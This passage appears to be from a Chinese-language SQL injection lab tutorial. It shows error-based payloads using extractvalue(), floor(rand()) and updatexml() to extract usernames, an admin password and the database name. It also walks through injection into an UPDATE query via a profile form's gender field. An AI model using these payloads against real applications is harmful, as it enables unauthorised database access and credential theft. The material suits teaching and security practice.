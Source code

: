 ```sql
1' and extractvalue(1,concat('~',(select username from users limit 0,1))))#
```

![image-20220131215730142](https://gitee.com/xxb667/img/raw/master/img/image-20220131215730142.png)

查password：

```
1' and extractvalue(1,concat(0,(select password from users where username='admin'))))#
```

![image-20220131215749932](https://gitee.com/xxb667/img/raw/master/img/image-20220131215749932.png)

**floor()函数：**

```sql
1'and (select 1 from (select count(*),concat('~',(select concat(username,'~',password) from users limit 0,1),'~',floor(rand(0)*2))as x from information_schema.tables group by x)a))#
```



#### **update注入**

注册账号后登录，可以修改个人信息，

进入修改页面，填写四项项，

性别那里输入单引号，密码输入123，

页面会有报错信息

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '12345',address='北京1',email='北京' where username='a'' at line 1
```



说明存在SQL注入漏洞

猜测sql语句为：

```sql
$query="update member set sex='$sex',phonenum='$phonenum',address='$add',email='$email' where username='xxx'";
```

- 构造Payload：
- 与insert注入相似，
- 只是闭合不同，
- 最后少加一个`）`

**下面语句在性别文本框中输入**

##### 爆库

**updatexml()函数：**

```sql
1' and updatexml(1,concat('~',database()),1) #
```
